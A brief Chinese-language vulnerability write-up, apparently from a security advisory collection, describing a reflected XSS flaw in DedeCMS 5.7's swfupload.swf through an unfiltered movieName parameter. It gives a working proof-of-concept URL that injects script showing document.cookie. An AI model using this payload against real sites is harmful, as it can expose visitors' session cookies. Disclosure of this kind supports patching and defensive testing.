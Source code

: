 # Dedecms-swf文件反射型xss

## 漏洞简介

DedeCMS 5.7 /images/swfupload/swfupload.swf文件movieName参数没有合适过滤，导致跨站脚本漏洞。

### 漏洞影响版本

DedeCMS 5.7

## 文件位置

漏洞文件为：http://127.0.0.1/images/swfupload/swfupload.swf

### 漏洞POC

```
http://127.0.0.1/images/swfupload/swfupload.swf?movieName="])}catch(e){if(!window.x){window.x=1;alert(document.cookie)}}//
```

